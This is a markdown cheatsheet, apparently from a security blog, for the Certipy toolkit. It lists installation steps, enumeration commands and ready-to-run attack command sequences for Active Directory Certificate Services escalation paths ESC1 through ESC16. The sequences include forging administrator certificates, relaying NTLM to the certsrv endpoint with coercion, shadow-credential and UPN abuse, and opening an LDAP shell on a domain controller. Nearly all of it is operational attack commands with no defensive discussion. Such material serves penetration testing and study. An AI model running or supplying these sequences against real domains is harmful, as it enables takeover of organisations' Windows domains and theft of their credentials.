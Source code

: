 ```yaml
---
title: Certipy Cheatsheet
author: Kasem Shibli
date: 2025-10-27 11:45:00 +/-TTTT
categories: [CheetSheets]
tags: [certipy]
---
```

# Certipy - AD CS Attack & Enumeration Toolkit
# Installation
[Certipy](https://github.com/ly4k/Certipy/wiki/04-%E2%80%90-Installation
)
## Using pip

```bash
$ sudo apt update && sudo apt install -y python3 python3-pip
$ python3 -m venv certipy-venv
$ source certipy-venv/bin/activate
$ pip install certipy-ad
```
## Using pipx

```bash
$ pipx install -f "git+https://github.com/ly4k/Certipy.git"
```
## Using uv

```
$ uv tool install git+https://github.com/ly4k/Certipy --force
```
# Enumeration
Search for vulnerable certificate templates

```bash
$ certipy find -u username -p password -dc-ip ip -target dc -enabled -vulnerable -stdout
```
Find PKI Enrollment Services in Active Directory and Certificate Templates Names

```bash
$ nxc ldap target -u username -p password -M adcs
```
Anonymously uses RPC endpoints to hunt for ADCS CAs

```bash
$ nxc smb target -M enum_ca
```

# Attacks
## ESC1

```bash
$ impacket-addcomputer domain/username:password -computer-name computer_name -computer-pass computer_password

$ certipy req -u computer_name -p computer_password -ca ca -target domain -template template -upn administrator -dc-ip ip
```
Or
```bash
$ certipy req -u username -p password -ca ca -target domain -template template -upn administrator -dc-ip ip

If you run certipy and see Minimum RSA Key Length : 4096, you may need to provide the -key-size 4096 option

$ certipy req -u username -p password -ca ca -target domain -template template -upn administrator -dc-ip ip -key-size 4096

$ certipy auth -pfx administrator.pfx -domain domain -u username -dc-ip ip

$ certipy req -u username -p password -ca ca -target domain -template template -upn administrator -sid <administrator sid> -dc-ip ip 

```

## ESC3
```bash 
$ certipy req -u username -p password -ca ca -target domain -template template

$ certipy req username -p password -ca ca -target domain -template User -on-behalf-of administrator -pfx pfx_file

$ certipy auth -pfx administrator.pfx -dc-ip ip
```

## ESC4
```bash
$ certipy template -u username@domain -p password -template template -write-default-configuration -no-save

$ certipy req -u username@domain -p password -ca ca -template template -upn administrator@domain

$ certipy auth -pfx administrator.pfx -dc-ip ip

```

## ESC7
```bash
$ certipy ca -ca ca -add-officer username -u username@domain -p password -dc-ip ip -dns-tcp -ns ip

$ certipy ca -ca ca -enable-template SubCA -u username@domain -p password -dc-ip ip -dns-tcp -ns ip

$ certipy req -u username@domain -p password -ca ca -target ip -template SubCA -upn username@domain

$ certipy ca -ca ca -issue-request request_ID -u username@domain -p password

$ certipy req -u username@domain -p password -ca ca -target ip -retrieve request_ID

$ certipy auth -pfx pfx_file -domain domain -u username -dc-ip ip
```

## ESC8
```bash
$ ntlmrelayx.py -t http://domain/certsrv/certfnsh.asp -smb2support --adcs --template template --no-http-server --no-wcf-server --no-raw-server

$ coercer coerce -u username -p password -l ws_ip -t dc_ip --always-continue

$ certipy auth -pfx administrator.pfx
```

## ESC9
```bash
$ certipy shadow auto -u username@domain -hashes :hash -account target_username

$ certipy account update -u username@domain -hashes :hash -user target_username -upn administrator

$ certipy req -u target_username@domain -hashes :target_hash -ca ca -template template -target dc_ip

$ certipy account update -u username@domain -hashes :hash -user target_username -upn target_username

$ certipy auth -pfx administrator.pfx -domain domain
```

## ESC10
### Enumeration
```powershell
$ Get-ItemProperty -Path 'HKLM:\SYSTEM\CurrentControlSet\Services\Kdc' -Name StrongCertificateBindingEnforcement

$ Get-ItemProperty -Path 'HKLM:\SYSTEM\CurrentControlSet\Control\SecurityProviders\Schannel' -Name CertificateMappingMethods
```
### Exploitation
Case 2
```bash
$ certipy account -u username@domain -p password -dc-ip ip -target dc -upn dc$@domain -user victim update

$ impacket-getTGT domain/victim:password -dc-ip ip

$ export KRB5CCNAME=victim.ccache

$ certipy req -k -dc-ip ip -target dc -ca ca -template User

$ certipy account -k -dc-ip ip -target dc -upn victim@domain -user victim update

$ certipy auth -pfx dc.pfx -dc-ip ip -ldap-shell


# whoami
u:DOMAIN\DC$

# set_rbcd DC$ Machine_Account$
```

## ESC13
```bash
$ certipy req -u username -p password -ca ca -target domain -template template -dc-ip ip

$ certipy auth -pfx file.pfx -dc-ip ip

```

## ESC14
### [ADCS ESC14 Abuse Technique](https://posts.specterops.io/adcs-esc14-abuse-technique-333a004dc2b9#4a82)
```bash
$ bloodyAD --host dc -d domain -u username -p password set object target altSecurityIdentities -v 'X509:<RFC822>target@domain'

$ bloodyAD --host dc -d domain -u owned_user -p password set object target mail -v target@domain

$ certipy account update -u owned_user@domain -p password -user username -upn target

$ certipy req -u username -p password -ca ca -template template -dc-ip ip

$ certipy account update -u owned_user -p password -user username -upn username@domain -dc-ip ip

$ certipy auth -pfx pfx -dc-ip ip -user target -domain domain
```

## ESC15
### Scenario A
```bash
$ certipy req -u username@domain -p password -dc-ip ip -target dc -ca ca -template template -upn administrator@domain -sid <administrator sid> -application-policies 'Client Authentication'

$ certipy auth -pfx administrator.pfx -dc-ip ip -ldap-shell
```
### Scenario B
```bash
$ certipy req -u username@domain -p password -dc-ip ip -ca ca -template WebServer -application-policies 'Certificate Request Agent'

$ certipy req -u username@domain -p password -dc-ip ip -ca ca -template User -pfx user.pfx -on-behalf-of 'DOMAIN\Administrator'

$ certipy auth -pfx administrator.pfx -dc-ip ip
```

## ESC16

We use a user that has GenericAll or GenericWrite
```bash
$ certipy account -u owned_user@domain -p password -dc-ip ip -upn administrator -user username update

$ certipy req -u username@domain -p password -dc-ip ip -target dc -ca ca -template User -upn administrator@domain -sid <administrator sid>

$ certipy account -u owned_user@domain -p password -dc-ip ip -upn username -user username update

$ certipy auth -pfx administrator.pfx -dc-ip ip -domain domain
```

